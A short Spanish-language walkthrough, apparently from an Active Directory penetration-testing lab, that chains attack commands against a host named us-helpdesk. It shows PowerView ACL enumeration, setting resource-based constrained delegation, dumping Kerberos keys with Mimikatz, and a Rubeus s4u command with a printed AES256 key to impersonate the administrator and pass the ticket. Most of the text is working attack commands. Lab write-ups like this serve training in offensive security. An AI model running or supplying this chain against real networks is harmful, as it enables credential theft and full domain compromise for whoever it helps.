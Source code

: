 PowerView: `Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}`

AD(configurar RBCD para maquinas de estudiantes): `$comps = 'student86$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps`

Ahora, obtengamos los privilegios de student86$ extrayendo sus claves ES:

`Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`

Use la clave AES de studentx $ con Rubeus y acceda a us-helpdesk como CUALQUIER usuario que queramos: `.\Rubeus.exe s4u /user:student86$ /aes256:3185fdc962694be761cb902aec9def9a40cb31db85c7cb6536679a4e3e96d3a9 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt`